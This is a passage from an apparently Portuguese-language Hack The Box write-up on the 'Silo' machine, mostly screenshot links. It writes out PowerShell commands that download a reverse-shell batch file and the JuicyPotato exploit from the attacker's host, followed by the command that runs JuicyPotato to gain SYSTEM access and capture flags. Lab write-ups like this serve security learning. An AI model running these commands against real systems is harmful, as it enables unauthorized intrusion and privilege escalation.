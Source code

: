 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j3.png)

Passamos os dois arquivos para a máquina Silo

*(New-Object Net.WebClient).downloadFile('http://10.10.16.117/rev.bat', 'C:\temp\rev.bat')*

*(New-Object Net.WebClient).downloadFile('http://10.10.16.117/JuicyPotato.exe', 'C:\temp\JuicyPotato.exe')*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j4.png)

Agora executamos o JuicyPotato.exe e ganhamos acesso de root (Não precisou pegar o CLSID, não sei pq)

`.\JuicyPotato.exe -p rev.bat -l 5555 -t *`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_j6.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-silo/S_user.png)